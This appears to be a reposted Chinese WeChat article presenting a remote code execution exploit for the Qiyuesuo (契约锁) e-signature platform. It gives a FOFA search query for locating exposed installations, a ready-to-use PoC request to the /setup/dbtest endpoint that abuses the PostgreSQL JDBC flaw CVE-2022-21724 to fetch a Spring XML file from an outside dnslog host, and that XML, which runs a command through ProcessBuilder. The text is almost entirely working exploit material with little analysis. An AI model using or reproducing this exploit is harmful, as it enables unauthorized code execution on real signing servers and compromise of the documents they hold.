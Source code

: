 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk1Nzg3ODkyNg==&mid=2247484121&idx=1&sn=43b7919e71e92bcdd179e089796ce428

#  契约锁电子签章系统dbtest远程代码执行  
清晨  摸鱼划水   2025-06-13 08:55  
  
FOFA  

```
app=&#34;契约锁-电子签署平台&#34;
```

  
POC  

```
/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxxxx.dnslog.cn%2F1%2Exml
```

  
路径还可能是  
/api/setup/dbtest  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  
  
1.xml文件内容如下：  

```
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>
   <bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>
        <constructor-arg>
          <list>
            <value>open</value>
            <value>-a</value>
            <value>calculator</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

  
参考：  
  
[契约锁记录](https://mp.weixin.qq.com/s?__biz=MzkzMzI3OTczNA==&mid=2247488129&idx=1&sn=b79dd7ee7ba8d0546187fbe2840103ff&scene=21#wechat_redirect)  
  
  
[契约锁电子签章系统RCE简单分析](https://mp.weixin.qq.com/s?__biz=MzkyMzI3MTI5Mg==&mid=2247485432&idx=1&sn=63e6601ff3509793cf189faf3a909cce&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic807TiabD0udvArwzeS6Ab3ibZzxmiaTTHeLk7gYmrPCmKpMqtcgUiachx4oRgqdH9974bynx74uqOEFjg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
